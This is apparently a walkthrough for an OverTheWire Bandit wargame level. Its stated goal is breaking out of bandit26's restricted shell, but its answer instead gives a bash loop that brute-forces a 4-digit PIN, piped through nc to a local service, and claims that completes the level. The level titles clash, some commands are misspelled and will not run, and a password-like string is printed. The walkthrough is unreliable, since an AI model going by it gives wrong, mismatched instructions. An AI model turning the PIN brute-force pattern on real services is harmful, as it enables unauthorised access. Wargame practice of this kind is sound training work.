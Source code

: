 # Bandit Level 24 → Level 25

## Level Goal

Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not `/bin/bash`, but something else. Find out what it is, how it works and how to break out of it.

## Commands you may need to solve this level

- `ssh`
- `cat`
- `more`
- `vi`
- `ls`
- `id`
- `pwd`

# Answer

To solve Bandit Level 25 → Level 26, you need to understand the shell being used for user bandit26 and find a way to break out of it. Here are the steps:

1. Log into the server for Level 25 using SSH. The command is:

   ```bash
   ssh bandit25@bandit.labs.overthewire.org -p 2220
   ```

   Enter the password when prompted (the password is the one you found in Level 24).

2. Determine if the shell has any limitations or restrictions. You can also use the `id` command to check your current user information:

   ```bash
   id
   ```

3. Explore the file system using basic commands like `ls`, `pwd`, and `cd` to understand the environment.

4. Create a temporary directory for brute-force script:

   ```bash
   mkdir /tmp/level25
   cd /tmp/level25
   ```

5. If the shell allows you to use a text editor like `vim`, you can use it to view and edit files:

   ```bash
   vim brute_force.sh
   ```

6. Paste the script:

   ```bash
   #!/bin/bash

   for i in {0000..9999}; do
        echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i"
   done
   ```

   This Bash script generates and prints strings by combining a fixed prefix (`VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar`) with numbers from `0000` to `9999` using a `for` loop. Each line of output consists of the prefix followed by a number from the specified range.

7. Change permission of the script for it to be executed:

   ```bash
   chomod u+x brute_froce.sh
   ```

8. Execute script:

   ```bash
   ./brute_force.sh | nc localhost 30002 | grep -v "Wrong"
   ```

   The command is used for a brute-force attack against a service running on localhost at port 30002. The script generates combinations, the `nc` command sends them to the service, and `grep` filters out lines indicating unsuccessful attempts. The remaining output may represent successful attempts or some specific response from the service.

   So, when you use `grep -v`, it will output lines from the input that do not contain the specified pattern. It's a way to exclude lines that match a particular expression.

9. Use the obtained password to log in to Level 26 using SSH:

   ```bash
   ssh bandit26@bandit.labs.overthewire.org -p 2220
   ```

   Enter the password when prompted.

Congratulations! You've completed Bandit Level 25 → Level 26. Keep going, and feel free to ask if you have any questions!
